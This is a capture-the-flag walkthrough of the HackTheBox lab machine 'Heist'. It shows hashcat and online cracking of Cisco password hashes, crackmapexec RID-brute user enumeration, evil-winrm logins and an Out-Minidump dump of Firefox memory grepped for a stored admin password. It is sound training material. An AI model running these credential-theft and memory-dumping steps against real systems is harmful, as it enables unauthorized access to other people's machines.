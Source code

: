 # Heist

### Start with nmap

```
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


### web 

We can see that in `http://10.10.10.149/attachments/config.txt` there is a security password that we can try and crakc using `hashcat`

`hashcat -m 500 hashlab2.txt /usr/share/wordlists/rockyou.txt`

```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91:stealth1agent              
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: $1$pdQG$o8nrSzsGXeaduXrjlvKc91
Time.Started.....: Wed Nov  1 12:39:45 2023 (3 mins, 5 secs)
Time.Estimated...: Wed Nov  1 12:42:50 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    19127 H/s (5.98ms) @ Accel:256 Loops:125 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3544064/14344385 (24.71%)
Rejected.........: 0/3544064 (0.00%)
Restore.Point....: 3543040/14344385 (24.70%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:875-1000
Candidate.Engine.: Device Generator
Candidates.#1....: steauara -> std66984
```

We then try to use `crackmapexec` to check other users

`crackmapexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute`

```
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
SMB         10.10.10.149    445    SUPPORTDESK      [+] Brute forcing RIDs
SMB         10.10.10.149    445    SUPPORTDESK      500: SUPPORTDESK\Administrator (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      501: SUPPORTDESK\Guest (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      503: SUPPORTDESK\DefaultAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      513: SUPPORTDESK\None (SidTypeGroup)
SMB         10.10.10.149    445    SUPPORTDESK      1008: SUPPORTDESK\Hazard (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1009: SUPPORTDESK\support (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1012: SUPPORTDESK\Chase (SidTypeUser)
SMB         10.10.10.149    445    SUPPORTDESK      1013: SUPPORTDESK\Jason (SidTypeUser)
```

We can clean this up adding `grep` and `sed`

`crackmapexec smb 10.10.10.149 -u 'hazard' -p 'stealth1agent' --rid-brute |grep -oE 'SUPPORTDESK\\([[:alnum:]]+) \(SidTypeUser\)'| sed -e 's/SUPPORTDESK\\\(.*\) (SidTypeUser)/\1/'`

```
Administrator
Guest
DefaultAccount
WDAGUtilityAccount
Hazard
support
Chase
Jason
```

We can find hashes inside `/attachments/config.txt`

```
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
```

We can use an online tool to decrypt  the Cisco type 7

```
stealth1agent
$uperP@ssword
Q4)sJu\Y8qz*A3?d
```

We then use `evil-winrm` to connect to the machine, by trying bunch of credentials, we got a hit

`Chase:Q4)sJu\Y8qz*A3?d`

We then run `get-process firefox` to check if this is the browser that is being used.

```
*Evil-WinRM* PS C:\users\chase\appdata\local\temp> get-process firefox

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   1055      72   157136     232848       6.44   6188   1 firefox
    347      19    10196      39560       0.33   6300   1 firefox
    401      34    35104      92848       1.28   6420   1 firefox
    378      28    22608      59400       0.64   6728   1 firefox
    355      25    16504      38912       0.09   6992   1 firefox
```

We will send a tool called `Out-Minidump.ps1`

```
get-process -id 6188 | Out-Minidump
```

It will then create a firefox dump

```
*Evil-WinRM* PS C:\users\chase\appdata\local\temp> get-process -id 6188 | Out-Minidump


    Directory: C:\users\chase\appdata\local\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/2/2023   1:55 AM      525659519 firefox_6188.dmp
```

We then download it to our machine.

It will be a big file so we need to grep and find an interesting line

`cat firefox_6188.dmp | grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,60}&login=.{1,60}'`

```
└─# cat firefox_6188.dmp | grep -aoE 'login_username=.{1,20}@.{1,20}&login_password=.{1,60}&login=.{1,60}'
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=G
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

We will then check if it matches the sha256 that we found

```
┌──(root㉿kali)-[/home/kali/HTB/Intro-to-Dante]
└─# cat sha256hash.txt                                                                                    
91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040
                                                                                                                    
┌──(root㉿kali)-[/home/kali/HTB/Intro-to-Dante]
└─# echo -n '4dD!5}x/re8]FBuZ' | sha256sum
91c077fb5bcdd1eacf7268c945bc1d1ce2faf9634cba615337adbf0af4db9040  -
```

It matches!

We then use `Evil-Winrm` again to login as `Administrator`

```
evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'
```

Success!

We can then get our root.txt

